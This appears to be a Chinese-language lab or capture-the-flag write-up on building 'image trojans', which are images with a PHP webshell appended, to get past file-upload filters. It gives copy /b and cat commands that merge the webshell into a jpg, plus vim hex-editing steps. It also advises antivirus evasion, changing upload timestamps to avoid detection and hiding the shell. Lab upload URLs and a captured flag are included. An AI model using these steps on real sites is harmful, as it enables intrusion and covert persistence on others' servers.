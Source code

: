 ## 13. 图片马绕过

图片马**制作和利用**需要注意的几个事项

**1. 制作**
1. 免杀。
2. 不要破坏图片显示效果。
3. 图片大小要符合使用逻辑。
4. 如果渗透语句放在中后段，注意图片不要太大， 避免**解释器**无法读取

**2.利用**
1. 配合其他漏洞渗透利用， 如解析漏洞。
2. 注意修改上传时间，避免被发现。
3. 隐藏母马。

```bash
# windows
copy torjan.jpg/b + webshell.php

# linux / mac
cat webshell.php >> torjan.jpg
```

> 一张图片不行，换一张再试。

**vim 二进制编辑**

```bash
vim -b yingtaozi.jpg

## vim 内
%!xxd

# 编辑完
%!xxd -r
:wq
```


**png**

![](https://nc0.cdn.zkaq.cn/md/8461/99c656c95feae36ba97ca0bab58ffa15_33793.png)

**gif**

![](https://nc0.cdn.zkaq.cn/md/8461/3e4cc4f45f4ee6a9d8b943874888fc53_61847.png)

**png**

![](https://nc0.cdn.zkaq.cn/md/8461/348c0f5b9e53602c2bb0136295f6dcc9_36139.png)


```
http://59.63.200.79:8016/Pass-13/upload/7520201223003243.gif
http://59.63.200.79:8016/Pass-13/upload/8020201223003302.jpg
http://59.63.200.79:8016/Pass-13/upload/3420201223003316.png

# flag_Qg=ekeYD.txt : zkaq{h97@y9mvlFD2aaqX}
```
